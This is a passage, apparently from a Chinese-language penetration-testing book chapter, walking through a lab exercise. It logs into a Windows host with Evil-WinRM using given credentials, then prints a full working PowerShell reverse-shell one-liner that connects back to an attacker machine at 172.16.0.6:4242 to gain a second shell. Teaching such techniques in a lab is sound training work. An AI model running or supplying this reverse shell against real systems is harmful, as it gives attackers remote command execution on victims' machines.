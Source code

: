 我们将从**Evil-WinRM**开始，使用以下凭据查看是否能够获得一个 shell：**operator2:Password2**。运行以下命令：

evil-winrm -I 172.16.0.4 -u operator2 -p Password2

如果本章第一部分的配置都正确，你将看到以下结果：

![图 10.63 – Evil-WinRM shell](img/Figure_10.63_B16321.jpg)

图 10.63 – Evil-WinRM shell

*瞧*! 我们得到了第一个 shell，现在是时候探索我们新 shell 的功能了。输入**menu**命令并按下*Enter*。这将弹出一份后渗透模块列表：

![图 10.64 – Evil-WinRM shell 菜单](img/Figure_10.64_B16321.jpg)

图 10.64 – Evil-WinRM shell 菜单

故事时间

我记得曾与 Rob Mubix Fuller 进行过一次对话。他传授给我一条智慧箴言，这条箴言曾被传递给他：*两个是一个，一个是零*，意思是如果你只有一个 shell，那么实际上你根本就没有 shell。你需要一个备份计划，以防你的主会话丢失或被切断。这句话一直深深印在我脑海中，我也会将这一见解传递给你。所以记住，如果你成功获取了一个 shell，务必尽快构建第二个 shell。

话虽如此，我们需要构建另一个 shell。一个很好的资源是**Payloads All The Things**。可以通过以下链接访问：[`github.com/swisskyrepo/PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings)。

我们将使用反向 Shell 备忘单来找到一个 PowerShell 方法。以下代码展示了我们将用于连接回 Kali Linux 虚拟机的 PowerShell 命令：

client = New-Object System.Net.Sockets.TCPClient("172.16.0.6",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
